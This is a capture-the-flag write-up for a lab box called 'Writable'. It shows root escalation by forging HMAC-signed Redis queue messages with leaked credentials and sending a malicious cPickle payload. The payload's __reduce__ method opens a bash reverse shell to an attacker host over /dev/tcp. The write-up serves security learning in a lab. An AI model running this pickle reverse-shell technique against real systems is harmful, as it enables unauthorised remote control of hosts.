 # Writable (root)

Continuing on from our shell session, we need to have a quick look at
`/opt/pyexec.py`, which is mentioned on the glances panel.

Source can be read <a href="https://github.com/CovHackSoc/CTFChallenges/blob/master/boxes/writable/pyexec/pyexec.py">here</a>

This mentions a file called `./etc/jobs.json`, which contains:
```
{
    "host":"127.0.0.1",
    "port":6379,
    "key":"d32afd00b2c4bc74ac2e2548f97bc89c6df6fd3785f7125a67a933bdf6904d01",
    "password":"redis_is_really_secure",
    "queue":"jobs"
}
```

(Minor note, as the script is running from `/`, the `.` in the path can be
ignored)

So, we now need to use this to forge a signed message which can be done like so:

```
import base64
import hmac
key = "d32afd00b2c4bc74ac2e2548f97bc89c6df6fd3785f7125a67a933bdf6904d01"
payload = "BLAH"
data = base64.b64encode(payload)
mac = hmac.new(key.decode('hex'), data).hexdigest()

message = ",".join([data,mac])
```

Talking to redis can be done with:
```
import redis
connection = redis.Redis(
    host='10.10.2.6',
    port=6379,
    password='redis_is_really_secure'
)

connection.rpush('jobs', message)
```

Now, what do we set the payload to? Looking though the `evaluate_job()` function
we see references to pysandbox and cPickle. cPickle is known to be easier to
exploit, so we'll go with that. (Exploiting pysandbox is probably possible, but
I haven't attempted it)

Exploiting cPickle requires us to construct a class with a `__reduce__` method,
serialize it and then send it over.

This can be done like so:
```
import cPickle
import subprocess

class RunBinSh(object):
  def __reduce__(self):
    return (subprocess.Popen, (('/bin/bash','-c','bash -i >& /dev/tcp/10.10.2.1/9999 0>&1'),))

payload = cPickle.dumps(RunBinSh())
```

Running this will give us reverse shell that connects back to `10.10.2.1:9999`.

A full exploit can be found here [1].

Reading `/root/root.txt` gives us:
```
CTF{pysandbox_is_still_broken}
```

# References
* [1] https://github.com/CovHackSoc/CTFChallenges/blob/master/boxes/writable/solutions/client.py
